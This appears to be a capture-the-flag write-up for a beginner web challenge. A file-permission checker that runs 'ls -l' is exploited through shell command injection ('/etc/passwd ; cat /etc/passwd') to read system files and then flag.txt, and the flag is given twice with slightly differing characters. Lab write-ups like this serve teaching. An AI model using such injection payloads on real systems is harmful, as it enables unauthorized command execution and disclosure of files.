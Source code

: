 # Confidentiality
easy | web | 50 points

>My school was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security. Can you prove these aren't so secure?

This application included an input field. Enter a file name and the access control settings would appear. I tried **/etc/passwd** as sample input.

<img src="images/0-website.png" style="width: 70%"/>

From the output, this looks like the result from the `ls -l` command in `bash`.

As this is running shell commands, we can use `cat` to output the flag. But first, we need to know where the flag is and a way to run a `cat` command (this application currently only runs the `ls` command).

I tried the input `/etc/passwd ; cat /etc/passwd` to check if this would display the file permissions + the contents of **/etc/passwd**, and it did!

```
-rw-r--r-- 1 root root 1016 Sep 9 19:35 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/noloain
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

Now that we know this works, time to find the flag. I typed `ls` to check if there was anything in the current directory, and I found the flag!

```
-rw-r--r-- 1 root root 1016 Sep 9 19:35 /etc/passwd
flag.txt
main.py
requirements.txt
templates
```

All that was left to do is add the command `cat flag.txt` and its done!

```
-rw-r--r-- 1 root root 1016 Sep 9 19:35 /etc/passwd
flag{e56abbce7b83d62dac05e59fble81c68}
```

Flag: `flag{e56abbce7b83d62dac05e59fb1e81c68}`